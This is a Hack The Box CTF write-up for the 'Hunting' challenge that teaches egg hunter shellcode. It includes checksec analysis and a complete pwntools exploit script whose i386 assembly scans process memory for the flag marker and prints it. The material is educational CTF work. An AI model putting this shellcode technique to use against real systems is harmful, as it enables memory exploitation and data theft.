


# Hack The Box – Hunting (Egg Hunter)

<br>
<br>


---

## 📌 Overview

This challenge demonstrates how **egg hunter shellcode** can be used to reliably extract sensitive data when direct control-flow hijacking is unreliable. Due to **PIE-enabled binaries** and an **unknown memory layout**, traditional jump-based shellcode execution is ineffective.

By dynamically scanning memory for a known marker, we are able to locate and extract the flag from process memory.

> *In this write-up, we cover*

* Basic binary enumeration
* Security protection analysis
* Egg hunter concept and usage
* Shellcode-based exploitation
* Reliable flag extraction

---

## 🛠 Tools

The following tools and techniques were used:

```
checksec            → Binary security analysis
file                → Binary architecture identification
netcat              → Remote service interaction
pwntools            → Exploit development framework
Linux terminal      → Execution and debugging
```

---


## 🧭 Walkthrough

###  Initial Execution

The binary is executed locally to observe its behavior.

```bash
./hunting
```

Result:

```text
Segmentation fault
```

This immediate crash indicates unsafe memory handling and a likely exploitation path.


---

###  Security Protections

We analyze the binary security mitigations.

```bash
checksec hunting
```

Results:

* Architecture: i386-32-little
* RELRO: Full RELRO
* Stack Canary: Not present
* PIE: Enabled
* Stack: Executable
* RWX Segments: Present

These results indicate that **shellcode execution is possible**, but memory addresses are unreliable due to PIE.



---


## 🥚 Egg Hunter Overview

An **Egg Hunter** is a small shellcode stub designed to scan process memory for a unique marker (the *egg*). Once found, execution or data extraction continues from that location.

### Why an Egg Hunter Is Required

* PIE randomizes memory addresses
* Shellcode location is unknown
* RWX memory allows execution
* Memory scanning ensures reliability

### Egg Used

```
HTB{
```

Little-endian representation:

```c
0x7b425448
```

---

## 🧪 Exploitation

### Egg Hunter Logic

1. Scan memory page by page
2. Check page accessibility using a syscall
3. Compare memory contents against the egg
4. Continue scanning until a match is found
5. Print the flag
6. Exit cleanly

---

### Exploit Script

```python
#!/usr/bin/env python3
from pwn import *
import sys

context.arch = "i386"

assembly = r"""
setup:
    mov eax, 27
    int 0x80

    mov edi, 0x7b425448
    mov edx, 0x5fffffff

next_page:
    or dx, 0xfff

test_next:
    inc edx
    push edx
    xor ecx, ecx
    mov al, 0x21
    lea ebx, [edx + 0x4]
    int 0x80

    cmp al, 0xf2
    popa
    jz next_page

    cmp [edx], edi
    jnz test_next

    push 0x4
    pop eax
    push 0x1
    pop ebx
    mov ecx, edx
    push 0x24
    pop edx
    int 0x80

    mov eax, 1
    xor ebx, ebx
    int 0x80
"""

payload = asm(assembly)

if len(sys.argv) != 2:
    print(f"Usage: {sys.argv[0]} ip:port")
    sys.exit(1)

host, port = sys.argv[1].split(":")
io = remote(host, int(port))
io.send(payload)
io.interactive()
```

---

###  Flag Extraction

```bash
python3 exploit.py <IP>:<PORT>
```

🏁 **Flag successfully recovered**




---

## 🧠 What This Challenge Teaches

* Egg hunters bypass PIE and ASLR limitations
* Executable stacks enable shellcode-based attacks
* Memory scanning improves exploit reliability
* Crashes after exploitation are acceptable in CTFs

---

## 📌 Conclusion

This challenge highlights the effectiveness of **egg hunter shellcode** when direct exploitation techniques fail due to memory randomization.

> *When you cannot jump to shellcode — search for it.*

---

## Author: SUB-ZERO

## [LinkedIn:](https://www.linkedin.com/in/salman-hussein-3615852a4/)
